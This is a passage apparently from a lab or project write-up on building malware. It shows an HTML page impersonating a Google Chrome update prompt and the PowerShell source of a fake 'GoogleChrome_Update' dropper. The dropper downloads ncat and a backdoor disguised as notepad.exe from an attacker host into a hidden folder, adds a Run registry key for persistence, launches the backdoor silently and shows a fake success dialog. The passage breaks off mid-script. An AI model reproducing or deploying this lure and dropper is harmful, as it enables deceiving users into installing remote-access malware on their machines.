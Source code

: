 ```html
  <header>
    <img src="chrome-logo.svg" alt="Chrome logo" />
    <strong>Google Chrome</strong>
    <nav>
      <a href="#">AI Innovations</a>
      <a href="#">Safety</a>
      <a href="#">By Google</a>
      <a href="#">Extensions</a>
    </nav>
  </header>
  <main>
    <img src="chrome-logo.svg" alt="Chrome logo" />
    <h1>Hi User, We detected your version of Google Chrome is out of date. We will stop supporting this version tomorrow. Please download our latest update here. Thank you!</h1>
    <a href="http://192.168.49.1/download/GoogleChrome_Update.exe" class="download-btn" download>Download the latest version</a>
  </main>
</body>
</html>
```

#### c. Malware

-> **NOTE: All the .exe files were created from my PowerShell (ps1) code using PS2EXE. Below is my ps1 code** <-

**GoogleChrome_Update.ps1 (-> GoogleChrome_Update.exe)**

```powershell
$HiddenDirPath = "$env:TEMP\Notepad" 
$NcatUrl = "http://192.168.49.1/payload/ncat.exe" 
$BackdoorUrl = "http://192.168.49.1/payload/notepad.exe"
$BackdoorLocalPath = Join-Path $HiddenDirPath "notepad.exe"
$NcatLocalPath = Join-Path $HiddenDirPath "ncat.exe"

try {
    if (-not (Test-Path $HiddenDirPath)) {
        New-Item -Path $HiddenDirPath -ItemType Directory | Out-Null
        (Get-Item $HiddenDirPath).Attributes = "Hidden" 
    }
    (New-Object System.Net.WebClient).DownloadFile($NcatUrl, $NcatLocalPath)
    (New-Object System.Net.WebClient).DownloadFile($BackdoorUrl, $BackdoorLocalPath)
    $RegistryPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
    $EntryName = "ChromeUpdate"
    $CommandToRun = "`"$BackdoorLocalPath`" --no-startup-window --win-session-start"
    
    Set-ItemProperty -Path $RegistryPath -Name $EntryName -Value $CommandToRun
    
    # Run immediately
    Start-Sleep -Seconds 5
    Start-Process -WindowStyle Hidden -FilePath $BackdoorLocalPath

    # Show Dialog

    Add-Type -AssemblyName System.Windows.Forms
    $form = New-Object System.Windows.Forms.Form
    $form.Text = "Google Chrome"
    $form.Size = New-Object System.Drawing.Size(300,150)
    $form.StartPosition = "CenterScreen"

    $label = New-Object System.Windows.Forms.Label
    $label.Text = "Update Successfully. Enjoy the new features!"
    $label.AutoSize = $true
    $label.Location = New-Object System.Drawing.Point(30,30)
    $form.Controls.Add($label)
```